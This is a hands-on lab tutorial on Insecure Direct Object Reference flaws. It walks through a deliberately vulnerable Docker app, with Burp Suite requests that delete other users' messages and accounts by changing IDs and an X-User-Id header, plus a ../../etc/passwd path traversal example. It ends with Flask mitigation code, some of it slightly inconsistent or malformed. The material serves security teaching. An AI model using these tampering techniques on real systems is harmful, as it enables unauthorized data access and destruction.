# Insecure Direct Object Reference (IDOR)

Insecure Direct Object Reference (IDOR) is a critical security vulnerability that occurs when an application exposes a reference to an internal implementation object, such as a file, directory, database record, or key. Attackers can manipulate these references to access unauthorized data or perform unauthorized actions, bypassing access control mechanisms.

## **Objective**

- Running the vulnerable `Application` in `Docker`
- Performing an `IDOR` attack on the `Application`
- Understanding how attackers can manipulate object references to access unauthorized data
- Identifying ways to detect and mitigate IDOR vulnerabilities
- Demonstrating security best practices to prevent IDOR attacks in production systems

## **What is Insecure Direct Object Reference (IDOR)?**

IDOR is a **web security vulnerability** that occurs when an application uses user-supplied input to access objects directly without sufficient authorization checks. This allows attackers to bypass authorization and access resources they shouldn't have permission to access, such as private user data, administrative functions, or internal system files.


## **How Does IDOR Work?**

### **1. Identification**  
The attacker identifies a parameter or URL that references an object, such as a user account, message, or file. This could be in the form of a numeric ID, UUID, or other unique identifier.

- Example parameter in URL:  
  ```
  https://vulnerable.site/download?file=normal.pdf
  ```
  Where `123` is the identifier for a message.

### **2. Manipulation**  
The attacker modifies the reference to point to a different object that they should not have access to. For instance, changing the message ID from 123 to 124 to access someone else's message.

- Example manipulated URL:  
  ```
  https://vulnerable.site/download?file=confidential.pdf
  ```

### **3. Access**  
If the application does not properly verify that the user has the right to access the referenced object, the attacker gains unauthorized access to the data or functionality.

## **Types of IDOR Vulnerabilities**


### 1. Path Traversal
This occurs when an attacker manipulates a file path reference to access unauthorized files or directories on a server.

- **Example**:  
  An application allows users to download their profile picture via a URL:
  ```
  https://example.com/download?file=profile123.jpg
  ```
  An attacker modifies it to:
  ```
  https://example.com/download?file=../../etc/passwd
  ```
If the server doesn’t validate the input, it may return sensitive system files (e.g., `/etc/passwd` on Linux).

---

## 2. URL Tampering
This involves modifying URL parameters to access data or resources belonging to other users or unauthorized areas.

- **Example**:  
A website lets users view their order details with a URL:  
```
https://example.com/order?order_id=12345
```
An attacker changes it to:
```
https://example.com/order?order_id=10101
```
If access controls are weak, the attacker can view another user’s order details.

---

## 3. Modifying Header
This occurs when an attacker alters HTTP headers (e.g., cookies or tokens) to bypass access controls and reference unauthorized objects.

- **Example**:  
A web app uses a cookie to identify the user:

---

## 4. Body Manipulation
This involves tampering with the request body (e.g., JSON or form data) to reference objects the attacker shouldn’t access.

- **Example**:  
An API endpoint allows profile updates via a POST request:  
```json
{
  "user_id": "101",
  "email": "user@example.com"
}
```
An attacker modifies the user_id:
```json
{
  "user_id": "102",
  "email": "attacker@example.com"
}
```

## **Impact of IDOR Vulnerabilities**

- **Data Breach:** Unauthorized access to other users' private information
- **Account Takeover:** Ability to modify account details of other users
- **Privilege Escalation:** Performing actions reserved for higher privilege users
- **Data Manipulation:** Modifying or deleting data belonging to other users
- **Business Logic Bypass:** Circumventing business rules and restrictions

## **Hands-on with IDOR**

1. **Pull the Docker Image**

   ```bash
   docker pull yeasin97/idor-lab1:latest
   ```

2. **Run the Docker Container**

   ```bash
   docker run -d -p 5000:5000 yeasin97/idor-lab1:latest
   ```

3. **Create a Load Balancer in Poridhi's Cloud**

   Find the `eth0` IP address with `ifconfig` command.

   
   

   Create a Load Balancer with the `eth0 IP` address and the port `5000`

   

   
4. **Access the Web Application**

   Access the web application with the URL provided by the `loadbalancer`

   
   
   
### **Exploring the Application**

This web app is designed to demonstrate IDOR vulnerabilities. It allows users to register, login, post messages, and manage their profiles. The application uses direct object references in URLs and API endpoints without proper authorization checks, making it vulnerable to IDOR attacks.

1. Register two user accounts: "User1" and "User2"
2. Login as "User1" and create a message
3. Note how the application uses numeric IDs in the URLs and for referencing resources






### **Exploiting the IDOR Vulnerability**

#### **1. Message Deletion IDOR**

Let's exploit the IDOR vulnerability in the message deletion functionality:

1. Login as "User1" and create a message
2. Note the message ID in the URL when viewing the message
3. Login as "User2" and create another message



4. With BurpSuite running, try to delete "User1"'s message as "User2"

**Step 1:** Click the delete button for your own message and capture the request in BurpSuite and sent it to repeater.




**Step 2:** Observe the request structure:
```
GET /delete_message/3 HTTP/2
Host: 678aa840859cc728c0ad9211-lb-732.bm-north.lab.poridhi.io
Cookie: session=eyJ1c2VyX2lkIjoyLCJ1c2VybmFtZSI6IlVzZXIyIn0.Z92edQ.4TuLxICSCHi3qMS0suI3w4Jp41g
```

**Step 3:** Modify the message ID to target "User1"'s message:
```
GET /delete_message/1 HTTP/2
Host: 678aa840859cc728c0ad9211-lb-732.bm-north.lab.poridhi.io
Cookie: session=eyJ1c2VyX2lkIjoyLCJ1c2VybmFtZSI6IlVzZXIyIn0.Z92edQ.4TuLxICSCHi3qMS0suI3w4Jp41g
```

Repeat for the message 2 as well.

**Step 4:** Forward the modified request and observe that you can delete another user's message without proper authorization!



Reload the home page and see User1's messages are deleted.



#### **2. Account Deletion IDOR**

The application also has an IDOR vulnerability in the account deletion functionality:

1. Login as "User2"
2. Navigate to the profile page
3. With BurpSuite running, initiate an account deletion request for your own account



4. Modify the request to target "User1"'s account

**Step 1:** Click "Delete Account" and capture the request in BurpSuite:
```
POST /delete_account HTTP/2
Host: 678aa840859cc728c0ad9211-lb-732.bm-north.lab.poridhi.io
Cookie: session=eyJ1c2VyX2lkIjoyLCJ1c2VybmFtZSI6IlVzZXIyIn0.Z92faQ.kWL53TI1IuKsU8CaSwZ-CO3Bs4g
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://678aa840859cc728c0ad9211-lb-732.bm-north.lab.poridhi.io/profile
X-User-Id: 2
```

**Step 2:** Modify the X-User-ID header to target "User1":
```
POST /delete_account HTTP/2
Host: 678aa840859cc728c0ad9211-lb-732.bm-north.lab.poridhi.io
Cookie: session=eyJ1c2VyX2lkIjoyLCJ1c2VybmFtZSI6IlVzZXIyIn0.Z92faQ.kWL53TI1IuKsU8CaSwZ-CO3Bs4g
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://678aa840859cc728c0ad9211-lb-732.bm-north.lab.poridhi.io/profile
X-User-Id: 1
```

**Step 3:** Forward the modified request and observe that you can delete another user's account!



Send it again to ensure its deleted when you see the "Not Found" response.



## **How to Prevent IDOR Vulnerabilities**

### 1. Implement Proper Access Control Checks
**Protection Mechanism:** Verify user authorization for every object access request.

**How it protects:** By checking if the current user has permission to access the requested resource before providing it, even if they have the correct reference.

**Implementation (Python with Flask):**
```python
@app.route('/delete_message/<int:message_id>')
def delete_message(message_id):
    if 'user_id' not in session:
        return redirect(url_for('login'))
    
    # Get the message
    message = Message.query.get_or_404(message_id)
    
    # Check if the current user owns the message
    if message.user_id != session['user_id']:
        flash('You are not authorized to delete this message')
        return redirect(url_for('home'))
    
    # Delete the message
    db.session.delete(message)
    db.session.commit()
    
    flash('Message deleted!')
    return redirect(url_for('home'))
```

### 2. Use Indirect Object References
**Protection Mechanism:** Use temporary or indirect references that are mapped to the actual database identifiers server-side.

**How it protects:** By hiding the actual structure of your data and making it difficult for attackers to guess or manipulate references.

**Implementation (Python):**
```python
import uuid

# Generate indirect references
@app.route('/messages')
def list_messages():
    if 'user_id' not in session:
        return redirect(url_for('login'))
    
    # Retrieve user's messages
    user_messages = Message.query.filter_by(user_id=session['user_id']).all()
    
    # Create temporary reference map for this session
    reference_map = {}
    for message in user_messages:
        temp_id = str(uuid.uuid4())
        reference_map[temp_id] = message.id
    
    # Store map in session
    session['reference_map'] = reference_map
    
    return render_template('messages.html', messages=user_messages, ref_map=reference_map)

# Use indirect references for deletion
@app.route('/delete_message/<string:temp_id>')
def delete_message(temp_id):
    if 'user_id' not in session or 'reference_map' not in session:
        return redirect(url_for('login'))
    
    # Check if the temp_id exists in the reference map
    if temp_id not in session['reference_map']:
        flash('Invalid message reference')
        return redirect(url_for('list_messages'))
    
    # Get the actual message ID
    message_id = session['reference_map'][temp_id]
    
    # Delete the message (with ownership check for defense in depth)
    message = Message.query.get_or_404(message_id)
    if message.user_id != session['user_id']:
        flash('You are not authorized to delete this message')
        return redirect(url_for('list_messages'))
    
    db.session.delete(message)
    db.session.commit()
    
    # Remove from reference map
    session['reference_map'].pop(temp_id, None)
    
    flash('Message deleted!')
    return redirect(url_for('list_messages'))
```

### 3. Implement a Role-Based Access Control (RBAC) System
**Protection Mechanism:** Define roles with specific permissions and assign users to these roles.

**How it protects:** By creating a structured approach to access control that ensures users can only access resources appropriate for their role.

**Implementation Example:**
```python
def has_permission(user_id, resource_id, action):
    # Get user's role
    user = User.query.get(user_id)
    user_role = Role.query.get(user.role_id)
    
    # Check if the role has permission for this action on this resource
    permission = Permission.query.filter_by(
        role_id=user_role.id,
        resource_type=resource_id.__class__.__name__,
        action=action
    ).first()
    
    return permission is not None

# Usage in route
@app.route('/delete_message/<int:message_id>')
def delete_message(message_id):
    if 'user_id' not in session:
        return redirect(url_for('login'))
    
    message = Message.query.get_or_404(message_id)
    
    # Check if user owns the message OR has admin permission
    if message.user_id == session['user_id'] or has_permission(session['user_id'], message, 'delete'):
        db.session.delete(message)
        db.session.commit()
        flash('Message deleted!')
    else:
        flash('You are not authorized to delete this message')
    
    return redirect(url_for('home'))
```

### 4. Use Per-Request CSRF Tokens
**Protection Mechanism:** Require unique tokens for each action that changes state.

**How it protects:** By preventing cross-site request forgery attacks that could be used alongside IDOR vulnerabilities.

**Implementation (Flask with Flask-WTF):**
```python
from flask_wtf.csrf import CSRFProtect

# Setup CSRF protection
csrf = CSRFProtect(app)

# In your template
```html
<form method="post" action="{{ url_for('delete_message', message_id=message.id) }}">
    <input type="hidden" name="csrf_token" value="{{ csrf_token() }}"/>
    <button type="submit">Delete</button>
</form>
```

### 5. Implement API Rate Limiting
**Protection Mechanism:** Limit the number of requests a user can make in a given time period.

**How it protects:** By making it more difficult for attackers to enumerate or brute force object references.

**Implementation (Flask with Flask-Limiter):**
```python
from flask_limiter import Limiter
from flask_limiter.util import get_remote_address

limiter = Limiter(
    app,
    key_func=get_remote_address,
    default_limits=["200 per day", "50 per hour"]
)

@app.route('/delete_message/<int:message_id>')
@limiter.limit("10 per minute")
def delete_message(message_id):
    # Implementation here
```

## **Conclusion**

In this lab, we explored Insecure Direct Object Reference (IDOR) vulnerabilities and their impact on web applications. We demonstrated how attackers can manipulate object references to access unauthorized data and perform unauthorized actions. By implementing proper access control checks, using indirect references, implementing RBAC systems, using CSRF tokens, and implementing rate limiting, we can effectively prevent IDOR vulnerabilities in our web applications.

These security measures are essential for protecting user data and maintaining the integrity of web services in production environments. Remember that security is a layered approach - implementing multiple protections provides defense in depth against potential attackers.